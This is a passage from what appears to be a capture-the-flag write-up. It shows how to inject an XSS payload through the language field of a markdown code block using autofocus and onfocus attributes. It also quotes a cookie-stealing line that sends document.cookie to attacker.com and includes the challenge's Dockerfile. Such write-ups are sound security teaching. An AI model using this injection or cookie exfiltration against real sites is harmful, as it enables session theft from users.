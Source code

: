 So since it is possible to do this there should be a way to trigger an XSS even through the `pre` tag using arbitrary attributes. This is possible by adding the attributes `autofocus` and `tabindex=1` this will make the element automatically focused by the browser, after this we can add our javascript call with a `onfocus` attribute.

```
```json' autofocus tabindex=1 onfocus=alert()
{"a":1}
`` `
```

Something like this is enough to trigger an XSS.

![img](./assets/xss.png)

So our payload has to be a valid markdown code block with the injection inside the lamguage definition.

## Exfiltrating the session cookie using DNS and hex encodings

So now that we have got a valid XSS we need to construct a stable payload that will allow us to exfiltrate the admin cookie that is used in the admin bot, normally we would be able to do something like `window.location='http://attacker.com/?c='+document.cookie`, however there is a proble with that.

```Dockerfile
# Add application
WORKDIR /app
COPY challenge .

# Install dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Setup supervisord
COPY conf/supervisord.conf /etc/supervisord.conf

# Setup readflag program
COPY conf/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

# Expose port
EXPOSE 1337

# Prevent outbound traffic
ENV http_proxy="http://127.0.0.1:9999"
ENV https_proxy="http://127.0.0.1:9999"
ENV HTTP_PROXY="http://127.0.0.1:9999"
```